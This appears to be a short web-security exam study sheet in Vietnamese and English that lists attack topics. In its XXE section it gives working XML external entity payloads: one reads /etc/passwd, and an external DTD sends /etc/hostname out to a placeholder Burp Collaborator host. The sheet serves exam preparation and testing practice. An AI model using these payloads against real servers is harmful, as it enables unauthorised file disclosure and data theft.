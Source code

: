 ## via CRLF injection

(xem chi tiết)


# Server-side template injection (SSTI)

# Server-side request forgery (SSRF)

# Authentication

- Brute-force (X-Forwarded-For, cứ 2 lần sai phải đăng nhập đúng 1 lần, mfa code, stay-in cookie)

# Web cache poisoning 

Paraminer Extention

# XXE

## Checklist for exam

- payload:
  - read the contents:

  ```xml
  <!DOCTYPE foo [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]>
  ```

  - oob interaction:

  ```xml
  <!DOCTYPE foo [ <!ENTITY xxe SYSTEM "https://collaborator"> ]>
  ```

  - external dtd

    ```xml
    <!DOCTYPE stockcheck [<!ENTITY % xxe SYSTEM "http://exploit-server/poc.dtd">%xxe; ]>
    ```

    - poc.dtd (read contents via oob):

      ```xml
      <!ENTITY % file SYSTEM "file:///etc/hostname">
      <!ENTITY % eval "<!ENTITY &#x25; exfiltrate SYSTEM 'https://BURP-COLLABORATOR-SUBDOMAIN/?x=%file;'>">
      %eval;
      %exfiltrate;
      ```
